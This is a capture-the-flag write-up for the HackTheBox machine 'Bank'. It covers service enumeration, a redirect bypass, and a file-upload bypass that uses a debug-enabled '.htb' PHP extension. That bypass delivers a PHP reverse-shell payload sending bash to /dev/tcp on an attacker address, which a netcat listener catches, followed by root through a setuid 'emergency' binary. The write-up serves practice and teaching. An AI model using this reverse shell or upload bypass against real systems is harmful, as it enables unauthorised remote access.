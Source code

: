 # This is a write up for the machine Bank from HackTheBox.eu

host: 10.10.10.29

Serivce Discovery
```
nmap -A 10.10.10.29

Host is up (0.23s latency).
Not shown: 997 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
| 2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|_ 256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
53/tcp open domain
| dns-nsid: 
|_ bind.version: 9.9.5–3ubuntu0.14-Ubuntu
80/tcp open http Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-title: HTB Bank — Logi
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

And we can see that we have 3 services running ssh, dns and http. I tried accessing the web server  http://10.10.10.29 but it was just the default apache site.I saw that dns was open so I edited `/etc/hosts` to contain the ip of the machine plus the name server of the machine. The default name server for all HackTheBox machines is `<name of box>.htb` so I edited the hosts file as followed

cat /etc/hosts
```
127.0.0.1 localhost
127.0.1.1 Debian
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
10.10.10.29 bank.htb
```
Now 10.10.10.29 resolves to bank.htb. I tried to do a zone transfer with dig but that didn’t give me any information, so I accessed bank.htb and we were automatically redirected to bank.htb/login.php it was a login page for the bank site, I used curl to see what was in bank.htb/ because I couldn’t access the root directory of the site it would always redirect me to /login.php with curl -v http://bank.htb you can see all the html source code for root directory of the site. Also it indicated that there was a 302 redirect.
```
< HTTP/1.1 302 Found
< Date: Fri, 25 Aug 2017 15:50:33 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9–1ubuntu4.21
< Set-Cookie: HTBBankAuth=mipq942thbgb8h1vuf94ck3u01; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< location: login.php
< Content-Length: 7322
< Content-Type: text/html
```
I then used DirBuster to find new files and directory in bank.htb. Most of the files and folders were 403,302 some were 200 I found and interesting file named support and it was 200, so I tried accessing it but were being redirected to /login.php once again. I installed this plugin on firefox called noredirect which allows to me stop any 302 redirections. For those who couldn’t get Noredirect installed on firefox because of the firefox version was outdated there was an option to install anyway at the bottom of the page. I noticed people were having trouble with that, Alternatively could’ve used either Burpsuite or Zap-Proxy to catch the request and send it through as a 200 request.

![ScreenShot](https://raw.github.com/{0katz}/{CTF-writeups}/{Bank-HackTheBox}/{image.png})

I added http://bank.htb/login.php to the noredirect plugin so it would stop redirecting to /login.php everytime. Now I’m able to access http://bank.htb/ and we can see the transactions at the bank, and some other information… If we now go to /support.php we can see you can upload “tickets” as images, if you curl http://bank.htb/support.php and scroll through the html code you can see that the admin left him self a little nice note for himself.

> “<! — [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] →”

I created a php shell as followed
```
<?php
exec(“/bin/bash -c ‘bash -i >& /dev/tcp/10.10.x.x/4444 0>&1’”);
```
and named it shell.php I tried uploading it as shell.php but the site only wanted images uploaded. 
Then I remember that .htb runs as php so I added the .htb extension for my php shell since it can execute as php “for debugging purposes” and the shell got uploaded. Now all I had to do is set up a netcat listener to catch the shell.

`nc -l -v -p 4444`

once we catch the shell we go into the box as `www-data` in the directory `/var/www/bank/uploads/`

`www-data@bank:/var/www/bank/uploads$`

We can go into the user’s home directory chris and get the user flag user.txt,

**Got User Flag!**

Now it's time for privilege escalation. I started by just browsing through the directories and in `/var` I found a folder named htb inside htb I found two files with execute permissions and owned by root.
```
www-data@bank:/var/htb$ ls -la 
total 16
drwxr-xr-x 3 root root 4096 Jun 14 18:25 .
drwxr-xr-x 14 root root 4096 May 29 18:41 ..
drwxr-xr-x 2 root root 4096 Jun 14 18:30 bin
-rwxr-xr-x 1 root root 356 Jun 14 18:30 emergency
```
it seems like the system administrator has left an emergency exploit in case he forgets the root password of the system…
My privilege before running the exploit

`uid=33(www-data) gid=33(www-data) groups=33(www-data)`

My privileges after running the emergency exploit
```
./emergency 
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
```
and now we can get the root flag. cat /root/root.txt

**Got Root Flag!**

<a href="https://imgflip.com/gif/1zsvkv"><img src="https://i.imgflip.com/1zsvkv.gif" title="made at imgflip.com"/></a>
